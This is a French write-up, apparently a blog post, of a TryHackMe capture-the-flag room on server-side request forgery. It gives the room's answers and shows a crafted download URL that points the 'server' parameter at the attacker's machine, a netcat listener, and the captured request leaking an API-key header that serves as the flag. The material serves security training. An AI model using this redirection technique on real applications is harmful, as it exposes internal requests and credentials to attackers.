 Maintenant on se rend sur le port `8087` pour pratiquer !

---

**Explore the website. What is the only host allowed to access the admin area?**

Quand on va dans les 3 barres sur le côté dans le site ça nous donne un gros lien jaune avec écrit Admin Area et une fois dessus il y a écrit ça : `Admin interface only available from localhost!!!`

**Réponse :** `localhost`

**Check the "Download Resume" button. Where does the server parameter point to?**

Voici le lien exact quand on clique sur le bouton `Download` : `http://10.10.2.128:8087/download?server=secure-file-storage.com:8087&id=75482342`

**Réponse :** `secure-file-storage.com`

**Using SSRF, make the application send the request to your AttackBox instead of the secure file storage. Are there any API keys in the intercepted request?**

En premier j'ai besoin de mettre en "écoute" un terminal pour qu'il puisse capturer la cible dès que je vais la renvoyer vers la mauvaise URL et ensuite il nous faut notre IP qu'on peut avoir avec la commande `ip a`

Pour mettre en écoute un terminal avec `Netcat` :

```bash
nc -lvp 80
```

Et l'url d'avant, à la place de `secure-file-storage.com` on doit mettre notre IP suivi du port `80` comme on a configuré dans notre écouteur juste avant. Voici la commande entière : `http://10.10.2.128:8087/download?server=10.9.1.199:80&id=75482342`

Et une fois l'url entrée, voici ce que ça nous donne sur notre **netcat** :

```bash
┌──(omnimessie㉿omnimessie)-[~/Downloads]
└─$ nc -lvp 80    
listening on [any] 80 ...
10.10.2.128: inverse host lookup failed: Unknown host
connect to [10.9.1.199] from (UNKNOWN) [10.10.2.128] 46164
GET /public-docs-k057230990384293/75482342.pdf HTTP/1.1
Host: 10.9.1.199
User-Agent: PycURL/7.45.1 libcurl/7.83.1 OpenSSL/1.1.1q zlib/1.2.12 brotli/1.0.9 nghttp2/1.47.0
Accept: */*
X-API-KEY: THM{Hello_Im_just_an_API_key}
```

**Réponse :** `THM{Hello_Im_just_an_API_key}`

### Task 24 - What Next?

Bravo on a fini ce cours avec succès !

**Room Complétée**

{% include comments.html %}